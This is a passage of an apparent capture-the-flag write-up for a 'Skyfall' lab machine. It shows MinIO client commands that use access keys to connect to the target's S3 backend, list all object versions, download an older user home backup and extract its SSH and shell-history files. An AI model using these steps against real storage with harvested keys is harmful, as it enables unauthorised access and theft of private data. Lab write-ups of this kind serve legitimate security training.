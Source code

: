 ```
┌──(Batman㉿GC)-[~/minio-binaries]
└─$ ./mc alias set myminio http://prd23-s3-backend.skyfall.htb/ 5GrE1B2YGGyZzNHZaIww GkpjkmiVmpFuL2d3oRx0
Added `myminio` successfully.
```

Lets check for files.

```
┌──(Batman㉿GC)-[~/minio-binaries]
└─$ ./mc ls -r --versions myminio                                                                        
[2023-11-08 10:29:15 IST]     0B askyy/
[2023-11-08 11:05:28 IST]  48KiB STANDARD bba1fcc2-331d-41d4-845b-0887152f19ec v1 PUT askyy/Welcome.pdf
[2023-11-10 03:07:25 IST] 2.5KiB STANDARD 25835695-5e73-4c13-82f7-30fd2da2cf61 v3 PUT askyy/home_backup.tar.gz
[2023-11-10 03:07:09 IST] 2.6KiB STANDARD 2b75346d-2a47-4203-ab09-3c9f878466b8 v2 PUT askyy/home_backup.tar.gz
[2023-11-10 03:06:30 IST] 1.2MiB STANDARD 3c498578-8dfe-43b7-b679-32a3fe42018f v1 PUT askyy/home_backup.tar.gz
[2023-11-08 10:28:56 IST]     0B btanner/
[2023-11-08 11:05:36 IST]  48KiB STANDARD null v1 PUT btanner/Welcome.pdf
[2023-11-08 10:28:33 IST]     0B emoneypenny/
[2023-11-08 11:05:56 IST]  48KiB STANDARD null v1 PUT emoneypenny/Welcome.pdf
[2023-11-08 10:28:22 IST]     0B gmallory/
[2023-11-08 11:06:02 IST]  48KiB STANDARD null v1 PUT gmallory/Welcome.pdf
[2023-11-08 05:38:01 IST]     0B guest/
[2023-11-08 05:38:05 IST]  48KiB STANDARD null v1 PUT guest/Welcome.pdf
[2023-11-08 10:29:05 IST]     0B jbond/
[2023-11-08 11:05:45 IST]  48KiB STANDARD null v1 PUT jbond/Welcome.pdf
[2023-11-08 10:28:10 IST]     0B omansfield/
[2023-11-08 11:06:09 IST]  48KiB STANDARD null v1 PUT omansfield/Welcome.pdf
[2023-11-08 10:28:45 IST]     0B rsilva/
[2023-11-08 11:05:51 IST]  48KiB STANDARD null v1 PUT rsilva/Welcome.pdf
```

Here we can find some backupfiles with **.gz** extension. I tried to download those files and decompress them.

```
┌──(Batman㉿GC)-[~/minio-binaries]
└─$ ./mc cp --vid 2b75346d-2a47-4203-ab09-3c9f878466b8 myminio/askyy/home_backup.tar.gz .
...yy/home_backup.tar.gz: 2.64 KiB / 2.64 KiB ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 1.31 KiB/s 2s
```

```
┌──(Batman㉿GC)-[~/minio-binaries]
└─$ ls
home_backup.tar.gz
```

```
┌──(Batman㉿GC)-[~/minio-binaries]
└─$ tar -xzvf home_backup.tar.gz  
./
./.profile
./.bashrc
./.ssh/
./.ssh/authorized_keys
./.sudo_as_admin_successful
./.bash_history
./.bash_logout
./.cache/
./.cache/motd.legal-displayed
```
